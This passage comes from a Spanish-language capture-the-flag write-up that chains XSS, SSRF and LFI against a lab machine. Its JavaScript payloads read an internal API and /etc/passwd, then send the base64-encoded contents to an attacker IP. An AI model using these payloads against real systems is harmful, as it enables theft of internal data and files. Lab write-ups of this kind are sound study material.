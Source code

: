 ```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
x.open("GET","http://localhost:3000/");x.send();
```

Veremos como recibimos una petición con el contenido codificado en **base64**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315190908.png>)

Gracias a la siguiente instrucción de bash, conseguiremos decodificar el contenido que está en **base64**.

```bash
echo -n "eyJu..." | base64 -d | jq
```

Veremos que en el puerto **3000** (abierto internamente), se encuentra una **API** a través de la cual podemos ejecutar comandos tras previamente habernos logeado como un usuario con el rol de **admin**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315191011.png>)
### XSS → SSRF → LFI

Mediante la vulnerabilidad **SSRF**, intentamos leer archivos locales en el servidor, es decir aplicar un **LFI**. Para ello, el contenido de `pwned.js` ha de ser el siguiente.

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
x.open("GET","file:///etc/passwd");x.send();
```

Veremos como recibimos una petición codificada en **base64**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315191255.png>)
